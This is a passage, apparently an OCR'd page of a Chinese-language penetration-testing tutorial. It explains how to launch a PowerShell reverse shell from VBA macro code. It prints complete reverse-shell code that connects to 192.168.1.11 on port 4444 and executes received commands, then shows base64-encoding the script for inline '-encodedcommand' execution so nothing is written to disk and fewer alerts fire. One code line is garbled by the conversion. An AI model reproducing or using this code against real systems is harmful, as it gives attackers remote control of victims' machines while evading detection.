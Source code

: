 ![](./media/image10.jpeg){width="5.726599956255468in"
height="1.0925929571303588in"}

> 精彩！我们在远程（测试）机器上进行远程执行。理想情况下，我们想使用看起来像这样的VBA代码来调用此脚本：
```
VBA> Shell ("powershell c:tempreverse.ps1 ")
```
> 但是我们需要在目标磁盘上编写脚本，这可能会触发更多警报。避免这种情况的一种方法是使用PowerShell强大的内联命令执行功能！我们执行作为powershell.exe参数传递的代码字符串，而不是执行文件。
>
> 我们首先在每条指令的末尾添加一个分号';'：
```powershell
$client = New-Object System.Net.Sockets.TCPClient("192.168.1.11",4444);
$stream = $client.GetStream();

$greeting = "PS " + (pwd).Path + "> ";
$sendbyte = ([text.encoding]::ASCII).GetBytes($greeting);
$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flus [byte[]]$bytes = 0..255|%{0};
 
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + "PS " + (pwd).Path + "> ";
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush() };
$client.Close();
```

> 然后我们在Linux上用Unicode base64编码脚本的内容:
```bash
FrontGun$ cat reverse.ps1 | iconv -f UTF8 -t UTF16LE | base64
```
![](./media/image11.png){width="5.768518153980753in"
height="1.1592891513560806in"}

> 我们可以使用内联参数- encodedcommand调用这段代码:

![](./media/image12.jpeg){width="5.768518153980753in"
height="3.3790354330708663in"}
